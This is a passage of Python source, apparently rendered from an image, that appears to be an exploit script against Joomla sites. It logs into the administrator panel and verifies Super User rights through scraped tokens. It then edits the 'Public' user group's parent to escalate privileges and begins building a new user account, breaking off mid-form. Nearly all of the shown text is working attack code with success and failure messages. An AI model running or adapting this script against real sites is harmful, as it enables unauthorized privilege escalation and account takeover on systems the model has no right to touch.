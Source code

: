 ```python
        token: '1'
    }
    resp = sess.post(admin_url, data=data, verify=True)
    if 'task=profile.edit' not in resp.text:
        print('[!] Admin Login Failure!')
        return None
    print('[+] Admin Login Successfully!')
    return True


def checkAdmin(url, sess):
    print("[+] Checking admin")
    url_check = url + '/administrator/index.php?option=com_users&view=users'
    resp = sess.get(url_check, verify=True)
    token = extract_token(resp)
    if not token:
        print "[-] You are not administrator!"
        sys.exit()
    return token


def checkSuperAdmin(url, sess):
    print("[+] Checking Superadmin")
    url_check = url + '/administrator/index.php?option=com_config'
    resp = sess.get(url_check, verify=True)
    token = extract_token(resp)
    if not token:
        print "[-] You are not Super-Users!"
        sys.exit()
    return token


def changeGroup(url, sess, token):
    print("[+] Changing group")
    newdata = {
        'jform[title]': 'Public',
        'jform[parent_id]': 100,
        'task': 'group.apply',
        token: 1
    }
    newdata['task'] = 'group.apply'
    resp = sess.post(url + "/administrator/index.php?option=com_users&layout=edit&id=1", data=newdata,
                     verify=True)
    if 'jform[parent_id]' not in resp.text:
        print('[!] Maybe failed to change group...')
        return False
    else:
        print "[+] Done!"
    return True


def create_user(url, sess, username, password, email, token):
    newdata = {
        # Form data
        'jform[name]': username,
        'jform[username]': username,
        'jform[password]': password,
        'jform[password2]': password,
        'jform[email]': email,
        'jform[resetCount]': 0,
        'jform[sendEmail]': 0,
        'jform[block]': 0,
```